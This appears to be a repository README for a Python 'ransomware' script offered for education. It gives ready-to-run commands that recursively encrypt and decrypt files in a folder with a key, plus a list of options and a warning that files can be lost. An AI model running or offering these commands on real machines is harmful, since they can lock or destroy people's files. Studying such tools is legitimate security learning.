 # dangerous
Dangerous Malware. Educational purpouse only.  

Don't donwload to your PC if you don't know what are you doing.  
  
Don't execute on other computers, systems, etc.  
Just don't be dumb.  
  
I take no responsability for bad usage.  
  
## RANSOMWARE (sm.py)
### Examples:

Encrypt files in current folder:  
```
python smr.py -v -a txt -e -k 1337 -p ./ -c
```
  
Decrypt files in current folder:  
```
python smr.py -v -a txt -d -k 1337 -p ./ -c
```
  
### Arguments:  
Usage: python smr.py [-option1] [-option2] [...]  
 -a,  --adition  Add/Remove file extension to/from file.   
 -c,  --compression  Compress/Decompress the files to reduce end size.  
 -d,  --decrypt  Only decrypt. If a non encrypted file is in the path, will be encrypted.  
 -e,  --encrypt  Only encrypt. Uses weak Symmetric-key algorithm. Similar to Vernan or Affine encryption.  
 -h,  --help     Open this menu.  
 -i,  --interactive  Extra help to use the ransomware.  
 -k,  --key      Key/Password to encrypt files.  
 -p,  --path     Chose the path where the ransomware is goinf to run. All files in the path ans subpaths will be selected.  
 -v,  --verbose  Add more output to the console. Show more information about the running tasks.  

NOTICE: You can lose your files if the ranswomare crash, your pc shutdown or you can't remember your encryption key. I didn't made a bruteforce algorithm to decrypt the files. Since password is reused can be possible to recover the encrypted files. If you seriously need to, send me a message. https://twitter.com/XSStringManolo  
